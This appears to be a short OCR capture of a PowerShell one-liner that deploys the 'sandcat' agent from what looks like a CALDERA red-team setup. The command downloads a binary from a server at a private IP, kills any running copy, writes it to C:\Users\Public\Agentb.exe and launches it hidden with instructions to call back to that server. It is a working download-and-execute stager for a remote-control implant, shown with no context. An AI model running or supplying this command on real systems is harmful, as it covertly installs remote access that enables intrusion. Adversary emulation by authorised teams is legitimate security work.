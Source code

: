 $server="http://10.99.156.107:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\Agentb.exe"} | stop-process -f;rm -force "C:\Users\Public\Agentb.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\Agentb.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\Agentb.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
